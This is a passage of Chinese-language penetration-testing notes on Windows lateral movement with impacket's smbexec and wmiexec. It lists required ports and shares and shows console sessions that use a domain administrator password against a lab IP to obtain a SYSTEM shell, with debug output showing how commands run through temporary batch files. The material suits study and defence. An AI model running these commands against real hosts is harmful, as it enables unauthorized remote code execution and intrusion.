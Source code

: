 （2）执行bat文件、删除bat文件

（3）从C:\__output文件获取命令执行的结果，然后删除该文件

## 2、缺点
和psexec相似，创建/删除服务有大量日志

## 3、条件
和psexec相似，开启445/TCP、IPC$或非IPC$的任意<font style="color:#DF2A3F;">可写共享</font>

## 4、连接过程
```powershell
(base) C:\root> impacket-smbexec sec/administrator:'Az123456@'@172.16.80.189
Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit

(base) C:\root> impacket-smbexec sec/administrator:'Az123456@'@172.16.80.189 -debug
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /root/anaconda3/lib/python3.9/site-packages/impacket
[+] StringBinding ncacn_np:172.16.80.189[\pipe\svcctl]
[+] Executing %COMSPEC% /Q /c echo cd  ^> \\%COMPUTERNAME%\C$\__output 2^>^&1 > %SYSTEMROOT%\umNcdMEG.bat & %COMSPEC% /Q /c %SYSTEMROOT%\umNcdMEG.bat & del %SYSTEMROOT%\umNcdMEG.bat
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
[+] Executing %COMSPEC% /Q /c echo whoami ^> \\%COMPUTERNAME%\C$\__output 2^>^&1 > %SYSTEMROOT%\GieYlRjD.bat & %COMSPEC% /Q /c %SYSTEMROOT%\GieYlRjD.bat & del %SYSTEMROOT%\GieYlRjD.bat
nt authority\system

C:\Windows\system32>exit

(base) C:\root>

```

# 三、wmiexec
## 1、连接条件
（1）需要目标开启135/TCP（执行命令）、445/TCP（读结果）

（2）依赖于admin$

（3）135端口用来执行命令、445端口来读取回显

## 2、连接过程
```powershell
(base) C:\root> impacket-wmiexec sec/administrator:'Az123456@'@172.16.80.189 -debug
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /root/anaconda3/lib/python3.9/site-packages/impacket
[*] SMBv3.0 dialect used
[+] Target system is 172.16.80.189 and isFQDN is False
[+] StringBinding: win2019-1[53202]
[+] StringBinding: 172.16.80.189[53202]
[+] StringBinding chosen: ncacn_ip_tcp:172.16.80.189[53202]
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
```
